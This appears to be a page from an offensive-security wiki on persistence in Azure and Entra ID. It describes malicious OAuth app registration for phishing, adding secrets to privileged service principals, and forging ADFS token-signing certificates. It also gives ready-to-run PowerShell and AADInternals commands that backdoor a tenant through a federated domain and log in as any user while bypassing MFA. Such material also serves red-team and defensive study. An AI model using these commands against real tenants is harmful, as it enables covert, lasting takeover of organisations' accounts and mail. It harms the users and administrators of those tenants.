 # Az - Persistence

### OAuth Application

By default, any user can register an application in Entra ID. So you can register an application (only for the target tenant) that needs high impact permissions with admin consent (an approve it if you are the admin) - like sending mail on a user's behalf, role management etc.T his will allow us to **execute phishing attacks** that would be very **fruitful** in case of success.

Moreover, you could also accept that application with your user as a way to maintain access over it.

### Applications and Service Principals

With privileges of Application Administrator, GA or a custom role with microsoft.directory/applications/credentials/update permissions, we can add credentials (secret or certificate) to an existing application.

It's possible to **target an application with high permissions** or **add a new application** with high permissions.

An interesting role to add to the application would be **Privileged authentication administrator role** as it allows to **reset password** of Global Administrators.

This technique also allows to **bypass MFA**.

```bash
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```

- For certificate based authentication

```bash
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```

### Federation - Token Signing Certificate

With **DA privileges** on on-prem AD, it is possible to create and import **new Token signing** and **Token Decrypt certificates** that have a very long validity. This will allow us to **log-in as any user** whose ImuutableID we know.

**Run** the below command as **DA on the ADFS server(s)** to create new certs (default password 'AADInternals'), add them to ADFS, disable auto rollver and restart the service:

```bash
New-AADIntADFSSelfSignedCertificates
```

Then, update the certificate information with Azure AD:

```bash
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```

### Federation - Trusted Domain

With GA privileges on a tenant, it's possible to **add a new domain** (must be verified), configure its authentication type to Federated and configure the domain to **trust a specific certificate** (any.sts in the below command) and issuer:

```bash
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```

## References

- [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

